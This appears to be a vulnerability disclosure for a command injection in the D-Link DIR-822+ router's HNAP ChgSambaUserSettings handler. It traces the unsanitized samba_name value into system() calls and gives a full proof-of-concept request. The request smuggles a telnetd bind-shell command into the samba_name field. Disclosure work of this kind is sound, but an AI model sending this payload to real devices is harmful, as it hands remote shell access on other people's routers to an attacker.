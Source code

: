 ## DIR-822+ Command Injection

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-822%2B

### Affected version

D-Link DIR-822+ V1.0.5 was found to contain a command injection in `ChgSambaUserSettings` function of `prog.cgi`, which allows remote attackers to execute arbitrary commands via shell

![image-20240421163220274](./img/4.png)

### Vulnerability details

Vulnerability occurs in `/HNAP1/ChgSambaUserSettings`. Attackers can control `v23` by setting the `samba_name`.

![image-20240421163827190](./img/1.png)

In line 81, attackers can control `v19` by setting the `samba_pwd`. Function `sub_41AD4C` was used to decrypt password `v19` with key `v5`, and get the plaintext `v18`. If successfully decrypted, the program will call system in line 87, otherwise go to line 93, and finally call system in 96. 

![image-20240421163827190](./img/2.png)

Anyway, system was called twice, and its parameter `v21` was passed by `v23`, which controlled by attackers.

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `samba_name`. 

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 50
Accept: application/json
HNAP_AUTH: 5E736BA3725CFF7870DC7A1B6B9512E6 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/ChgSambaUserSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=akiKeInk; PrivateKey=880D5E30644E82353544D9496CA35B50; timeout=51
Connection: close

{"ChgSambaUserSettings":{"samba_name":"`telnetd -l /bin/sh -p 10000 -b 0.0.0.0`", "samba": "foo", "samba_readonly": "false", "samba_dir": "/home", "samba_num": "8", "samba_pwd": "111111111111"}}
```

![image-20240421163827190](./img/3.png)